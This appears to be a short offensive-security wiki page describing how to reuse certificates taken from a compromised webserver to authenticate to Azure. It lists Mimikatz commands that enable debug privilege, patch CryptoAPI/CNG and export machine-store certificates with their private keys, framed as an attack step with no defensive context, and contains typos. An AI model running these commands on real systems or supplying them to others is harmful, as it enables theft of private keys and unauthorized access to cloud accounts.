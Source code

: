# Access certificat

## Reused access certs as pricate keys

* Compromise a webserver
* Extract cert with Mimikatz
* Authenticate to Azure

### Mimikatz certificates export

```bash
mimikatz# crypto::capi
mimikatz# privilege:debug
mimikatz# crypto::cng
mimikatz# crypto::certificates /systemstore:local_machine /store:my /export
```

### Resources

{% embed url="https://github.com/gentilkiwi/mimikatz/wiki/module-~-crypto" %}





